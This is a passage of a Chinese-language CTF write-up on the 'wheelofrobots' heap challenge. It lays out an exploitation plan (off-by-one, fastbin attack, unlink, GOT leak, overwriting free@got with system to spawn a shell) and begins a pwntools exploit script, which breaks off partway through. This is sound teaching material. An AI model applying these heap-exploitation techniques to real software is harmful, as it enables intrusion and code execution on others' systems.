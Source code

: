综上分析，我们可以知道的是，该程序主要存在的漏洞 off-by-one 与整数溢出。这里我们主要使用前面的off-by-one 漏洞。

### 利用思路

基本利用思路如下

1. 利用 off by one 漏洞与 fastbin attack 分配 chunk 到 0x603138，进而可以控制 `destructor_size `的大小，从而实现任意长度堆溢出。这里我们将轮子1 tinny 分配到这里。
2. 分别分配合适大小的物理相邻的 chunk，其中包括 destructor。借助上面可以任意长度堆溢出的漏洞，对 destructor 对应的 chunk 进行溢出，将其溢出到下一个物理相邻的 chunk，从而实现对 0x6030E8 处 fake chunk 进行 unlink 的效果，这时 bss 段的 destructor 指向 0x6030D0。从而，我们可以再次实现覆盖bss 段几乎所有的内容。
3. 构造一个任意地址写的漏洞。通过上述的漏洞将已经分配的轮子1 tinny 指针覆盖为 destructor 的地址，那么此后编辑 tinny 即在编辑 destructor 的内容，进而当我们再次编辑 destructor 时就相当于任意低地址写。
4. 由于程序只是在最后启动机器人的时候，才会随机输出一些轮子的内容，并且一旦输出，程序就会退出，由于这部分我们并不能控制，所以我们将 `exit()` patch 为一个 `ret` 地址。这样的话，我们就可以多次输出内容了，从而可以泄漏一些 got 表地址。**其实，既然我们有了任意地址写的漏洞，我们也可以将某个 got 写为 puts 的 plt 地址，进而调用相应函数时便可以直接将相应内容输出。但是这里并不去采用这种方法，因为之前已经在 hitcon stkof 中用过这种手法了。**
5. 在泄漏了相应的内容后，我们便可以得到 libc 基地址，system 地址，libc中的 /bin/sh 地址。进而我们修改 free@got 为 system 地址。从而当再次释放某块内存时，便可以启动shell。

代码如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./wheelofrobots"
robots = ELF('./wheelofrobots')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./wheelofrobots")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset


def add(idx, size=0):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))
    if idx == 2:
        p.recvuntil("Increase Bender's intelligence: ")
        p.sendline(str(size))
    elif idx == 3:
        p.recvuntil("Increase Robot Devil's cruelty: ")
        p.sendline(str(size))
    elif idx == 6:
        p.recvuntil("Increase Destructor's powerful: ")
        p.sendline(str(size))


def remove(idx):
    p.recvuntil('Your choice :')
```